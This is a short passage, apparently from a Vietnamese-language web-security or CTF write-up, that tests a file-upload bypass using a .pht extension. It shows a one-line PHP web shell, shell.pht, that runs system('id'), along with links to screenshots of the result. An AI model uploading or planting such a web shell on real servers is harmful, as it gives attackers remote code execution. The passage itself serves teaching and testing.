 <img src="images/test-pht.png" width="100%">

Thử với payload RCE

**`shell.pht`**  
```php
<?php system("id"); ?>
```
<img src="images/shell-pht-id.png" width="100%">
